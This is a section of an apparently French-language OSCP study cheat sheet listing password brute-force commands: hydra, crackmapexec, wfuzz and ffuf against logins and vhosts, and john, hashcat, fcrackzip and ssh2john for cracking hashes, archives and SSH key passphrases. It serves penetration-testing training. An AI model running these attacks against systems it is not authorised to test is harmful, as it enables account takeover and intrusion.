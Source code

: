 <img src="https://github.com/florianges/Simple-OSCP-cheat-sheet/assets/64069514/41eded28-e1c7-48c9-b5b4-f1af03f808c3" height="180">

## Bruteforce SSH/FTP :
hydra -l [user] -P [wordlist] -s 22 -f [IP] [ssh/ftp]  

## Bruteforce service windows :
crackmapexec [mssql | winrm | smb | ssh] [IP] -u [wordlist user] -p [wordlist password]  

## Bruteforce sid :
lookupsid.py [user]@[IP]  

## Bruteforce login web :
hydra -l [user] -P [wordlist] [IP] http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed" -V  
wfuzz -w [wordlist] -d "username=admin&password=FUZZ" --hh=[nombre de carateres de la réponse] [URL]  

**Bruteforce login web quand il y a un token CSRF :**  
python3 brutecsrf.py --url [url] --csrf [name csrf] --u [user] --fuser [name for username form] --passwd [name for password form] --w [wordlist]  
https://github.com/J3wker/Web-BruteForcer-Token-Support/blob/master/brutecsrf.py  
## Bruteforce hash :
sudo john hash.txt -wordlist=rockyou.txt --rules  
sudo hashcat -m [mode] hash.txt rockyou.txt /usr/share/hashcat/rules/best64.rule --force  
  
## Bruteforce VHOST:  
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://creative.thm/ -H "Host:FUZZ.creative.thm" -fw 6  
  
## Bruteforce fichier zip :
fcrackzip [archive] -D -p [dictionnaire]  
  
## Bruteforce la passphrase d'une clée privée SSH :
1.	python /usr/share/john/ssh2john.py id_rsa > id_rsa.hash  
2.	john id_rsa.hash -wordlist=rockyou.txt  
